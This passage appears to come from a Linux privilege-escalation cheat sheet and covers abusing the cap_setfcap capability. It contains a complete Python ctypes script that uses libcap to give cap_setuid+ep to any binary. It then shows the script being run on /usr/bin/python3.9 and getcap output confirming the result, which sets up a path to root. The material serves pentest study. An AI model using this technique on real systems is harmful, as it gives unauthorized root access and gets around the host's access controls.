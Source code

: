 In this capability we can assign any capability to the file that we want,So we will assign ourself  [cap_setuid](#cap_setuid)

- set the library to load for setcap
```python title:setcapability.py
import ctypes
import sys

# Load the needed library (libcap.so.2)
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

# Define argument and return types for the functions we are going to use
libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p, ctypes.c_void_p]

# Check if path is passed as an argument
if len(sys.argv) < 2:
    print("Usage: python script.py <path_to_binary>")
    sys.exit(1)

# Get the binary path from arguments
path = sys.argv[1]
print(f"Setting capabilities for binary: {path}")

# The capability you want to add (in this case, cap_setuid)
cap = 'cap_setuid+ep'

# Convert the capability text to internal format (encode as byte string)
cap_t = libcap.cap_from_text(cap.encode('utf-8'))

# Set the capability for the specified binary
status = libcap.cap_set_file(path.encode('utf-8'), cap_t)

# Check if the operation was successful
if status == 0:
    print(f"Successfully added {cap} to {path}")
else:
    print(f"Failed to add {cap} to {path}")

```

```bash
/usr/bin/python3.9 setcapability.py /usr/bin/python3.9
```

```bash
[armour@localhost ~] getcap -r / 2> /dev/null
/usr/bin/python3.9 cap_setuid=ep
```




## cap_sys_module
